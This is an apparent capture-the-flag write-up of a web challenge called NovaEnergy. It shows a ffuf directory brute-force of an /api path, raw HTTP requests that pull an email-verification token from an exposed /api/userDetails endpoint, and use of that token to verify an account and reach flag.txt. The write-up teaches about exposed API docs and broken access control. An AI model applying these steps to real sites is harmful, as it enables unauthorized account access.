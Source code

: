 ﻿# NovaEnergy - HackTheSystemCTF

- NovaEnergy is a internal web application used for file sharing system. This site can only be accessed by employee of NovaEnergy company. You're tasked to hunt for any vulnerabilities that led to any breaches in their site.

![](../../../assets/landing_NovaEnergy.png)
- When creating an account:
    - Your email must be of the 'gonuclear.com' domain.
	- You must verify your account via an e-mail.
- There is this /static/api.js file that contains some interesting endpoints, especially the `/api/email-verify` (the last one), which can be requested **without any kind authentication**.
``` js
// API client module - calls FastAPI backend directly
const API = {
    baseURL: '/api', // Direct FastAPI URL

    // Make authenticated API request
    async request(endpoint, options = {}) {
        const url = `${this.baseURL}${endpoint}`;
        const headers = {
            ...Auth.getAuthHeaders(),
            ...options.headers
        };

        const config = {
            ...options,
            headers
        };

        try {
            const response = await fetch(url, config);
            
            // Handle authentication errors
            if (response.status === 401) {
                Auth.removeToken();
                window.location.href = '/login';
                throw new Error('Authentication required');
            }

            const data = await response.json();
            
            if (!response.ok) {
                throw new Error(data.detail || data.error || `HTTP error! status: ${response.status}`);
            }

            return data;
        } catch (error) {
            console.error('API request failed:', error);
            throw error;
        }
    },

    // Get user files
    async getFiles() {
        return this.request('/files');
    },

    // Upload file(s)
    async uploadFile(file) {
        const formData = new FormData();
        formData.append('file', file);

        return this.request('/files/upload', {
            method: 'POST',
            body: formData,
            headers: {
                // Don't set Content-Type for FormData, let browser set it
                'Authorization': `Bearer ${Auth.getToken()}`
            }
        });
    },

    // Download file
    async downloadFile(fileId) {
        const url = `${this.baseURL}/files/${fileId}/download`;
        const response = await fetch(url, {
            headers: Auth.getAuthHeaders()
        });

        if (!response.ok) {
            throw new Error('Download failed');
        }

        // Get filename from Content-Disposition header if available
        const contentDisposition = response.headers.get('Content-Disposition');
        let filename = `file_${fileId}`;
        
        if (contentDisposition) {
            const filenameMatch = contentDisposition.match(/filename="(.+)"/);
            if (filenameMatch) {
                filename = filenameMatch[1];
            }
        }

        const blob = await response.blob();
        Utils.downloadBlob(blob, filename);
    },

    // Delete file
    async deleteFile(fileId) {
        return this.request(`/files/${fileId}`, {
            method: 'DELETE'
        });
    },

    // Get file details
    async getFile(fileId) {
        return this.request(`/files/${fileId}`);
    },

    // Get user profile/info
    async getUserInfo() {
        // This would be implemented if the API has a user info endpoint
        // For now, return mock data based on stored email
        return {
            email: localStorage.getItem('userEmail'),
            name: localStorage.getItem('userEmail')?.split('@')[0] || 'User'
        };
    },

    //  Verify email with token
    async verifyEmail(email, token) {
        return this.request('/email-verify', {
            method: 'POST',
            headers: {
                'Content-Type': 'application/json'
            },
            body: JSON.stringify({
                email: email,
                token: token
            })
        });
    }
};
```

- I didn't find anything interesting, so I decided to bruteforce `/api` using ffuf and found `/api/docs`
``` bash
 varanda@debian~CTF/HTB/Challs/Web/NovaEnergy$ ffuf -u http://94.237.57.115:32271/api/FUZZ -w dirlist.txt

        /'___\  /'___\           /'___\       
       /\ \__/ /\ \__/  __  __  /\ \__/       
       \ \ ,__\\ \ ,__\/\ \/\ \ \ \ ,__\      
        \ \ \_/ \ \ \_/\ \ \_\ \ \ \ \_/      
         \ \_\   \ \_\  \ \____/  \ \_\       
          \/_/    \/_/   \/___/    \/_/       

       v1.0.2
       
[....] <Removed useless output>

files                   [Status: 401, Size: 30, Words: 2, Lines: 1]
docs                    [Status: 200, Size: 962, Words: 152, Lines: 31]
redoc                   [Status: 200, Size: 910, Words: 178,
[...] 
```

![](../../../assets/swagger_NovaEnergy.png)

- Great! It's a **swagger** template, which allows me to see the avialable endpoints and to make requests from the UI. Here I see that there is a `/api/userDetails` endpoint. I send the request and got my **verify-token** as part of the response.

``` http
POST /api/userDetails HTTP/1.1
Host: 94.237.57.115:32271
Content-Length: 35
Accept-Language: en-US,en;q=0.9
User-Agent: Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/141.0.0.0 Safari/537.36
Content-Type: application/json
Accept: */*
Origin: http://94.237.57.115:32271
Referer: http://94.237.57.115:32271/register
Accept-Encoding: gzip, deflate, br
Connection: keep-alive

{"email":"varanda@gonuclear.com"}
```

```json
{
  "id": 7,
  "email": "varanda@gonuclear.com",
  "is_verified": false,
  "created_at": "2025-10-15T13:49:10.957310",
  "verifyToken": "e1840346-389c-45f9-b961-a38f25051275",
  "last_login": null
}
```

- I'll now use the unauthenticated  `/api/email-verify` I found before and verify my account.
``` http
POST /api/email-verify HTTP/1.1
Host: 94.237.57.115:32271
Accept-Language: en-US,en;q=0.9
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/141.0.0.0 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Referer: http://94.237.57.115:32271/register
Accept-Encoding: gzip, deflate, br
Connection: keep-alive
Content-Type: application/json
Content-Length: 90

{
	"email": "varanda@gonuclear.com",
	"token": "e1840346-389c-45f9-b961-a38f25051275"
}
```

``` http
HTTP/1.1 200 OK
Server: nginx/1.22.1
Date: Wed, 15 Oct 2025 13:58:37 GMT
Content-Type: application/json
Content-Length: 41
Connection: keep-alive

{"message":"Email verified successfully"}
```

- After doing this, I am able to login with the user I created and in the user dashboard we see the **flag.txt** file ready to be downloaded.

![](../../../assets/pwned_NovaENergy.png)


writeup by varanda - 15/10/2025